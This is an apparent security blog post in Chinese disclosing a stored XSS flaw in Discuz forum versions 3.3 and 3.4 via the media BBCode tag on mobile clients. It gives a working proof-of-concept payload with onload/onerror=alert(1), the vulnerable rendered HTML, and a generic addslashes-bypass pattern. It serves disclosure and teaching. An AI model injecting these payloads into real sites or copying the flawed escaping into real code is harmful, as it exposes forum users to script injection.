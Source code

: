 ```yaml
---
title: Disucz正文存储型XSS(2)
date: 2017-10-30 23:08:34
tags:
---
```

# 漏洞证明
2017.9月份在3.3,3.4最新版测试通过

前提条件:
1.用户组允许使用media标签
2.非PC端用户(程序会判断UA)

复现步骤:
0x1.可以使用media标签的用户发表一篇文章
文章内容为
```
[media=mp3,200,300]http://www.tudou.com/programs/view/a' onload=alert(1) onerror=alert(1)[/media]
```
0x2. 使用手机，或者使用UA修改工具，修改成移动端头部
0x3. 浏览刚发过的帖子，视频加载完毕后，执行onload事件，会弹窗.
![](/img/5.png)

# 漏洞分析
```
<span id="flv_dWh"></span><script type="text/javascript" reload="1">$('flv_dWh').innerHTML=(mobileplayer() ? "<iframe height='300' width='200' src='http://www.tudou.com/programs/view/html5embed.action?code=a\\\' onload=alert(1) onerror=alert(1)' frameborder=0 allowfullscreen></iframe>" : AC_FL_RunContent('width', '200', 'height', '300', 'allowNetworking', 'internal', 'allowScriptAccess', 'never', 'src', 'http://www.tudou.com/v/a\\\' onload=alert(1) onerror=alert(1)', 'quality', 'high', 'bgcolor', '#ffffff', 'wmode', 'transparent', 'allowfullscreen', 'true'));</script></td></tr></table>
```
前端页面中有这么一段代码，非PC时，mobileplayer()=true.
简化下上面的代码，如下:
```
$('flv_dWh').innerHTML="<iframe src='http://www.tudou.com/programs/view/html5embed.action?code=a\\\' onload=alert(1)"
```
其中虽然src属性单引号看似没有闭合，但是实际上浏览器解析时已经闭合了，于是就引入了一个onload属性。

至于后端的代码，在`source/function/function_discuzcode.php`文件的`parseflv`函数中下断点可以调试漏洞，这里就不详细说明。

# 漏洞总结
`src='<?php addslashes("可控内容")?>'`
这样是不能防XSS的,用下面这样的代码是可以弹框的。
`<img src='x\' onerror=alert(1)//'>`
